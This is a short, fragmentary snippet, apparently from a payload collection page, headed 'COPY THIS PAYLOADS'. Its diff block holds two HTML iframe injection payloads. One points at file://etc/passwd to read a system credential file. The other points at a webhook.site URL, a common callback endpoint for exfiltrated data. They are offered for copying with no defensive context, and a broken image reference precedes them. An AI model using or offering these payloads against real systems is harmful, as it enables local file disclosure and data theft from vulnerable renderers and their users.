 ### COPY THIS PAYLOADS...
```diff
+ <iframe src="file://etc/passwd"></iframe>
- <iframe src="https://webhook.site/G-XXXXX"></iframe>
```
